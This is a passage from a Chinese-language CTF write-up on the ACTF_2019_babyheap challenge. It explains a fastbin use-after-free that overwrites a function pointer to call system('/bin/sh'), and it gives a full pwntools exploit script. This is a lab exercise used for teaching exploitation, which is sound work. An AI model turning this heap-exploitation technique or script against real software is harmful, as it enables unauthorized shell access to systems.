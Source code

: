 
|0x30|
|-|
|String0|
|🠗|
|String1|

再次create,但申请的字符串大小为0x10（chunk大小即为0x20）。fastbin是FILO(first in last out)的，那么
```
    note2 = note1
    string2 = note0
```
题目bss段中贴心的准备了`/bin/sh`字符串，也有`system`函数。
在create时向string2中写入
```
    binsh地址 |  system的PLT表地址
```
print选项调用note0.函数指针，就能成功调用`system('/bin/sh')`，完整payload如下
```
    if len(sys.argv) >1 and sys.argv[1] == 'r':
        target = remote()
    else:
        target = process("./ACTF_2019_babyheap")
        if(len(sys.argv)>1) and sys.argv[1]=='g':
            gdb.attach(target)

    context.log_level='debug'

    binsh=0x602010
    system_plt = 0x4007A0
    def s(in_put):
        target.sendlineafter("choice: ",in_put)
        
        
    def create(size,content):
        s("1")
        target.recvuntil("size: \n")
        target.sendline(str(size))
        target.recvuntil("content: \n")
        target.send(content)
        
        
    def delete(index):
        s("2")
        target.recvuntil("index: \n")
        target.sendline(str(index))
        
        
    def pwn():
        create(0x20,"A"*8+"\n")
        create(0x20,"B"*8+"\n")
        
        delete(0)
        delete(1)
        create(0x10,p64(binsh)+p64(system_plt))

        #use print at index 0 to getshell after this


        target.interactive()


```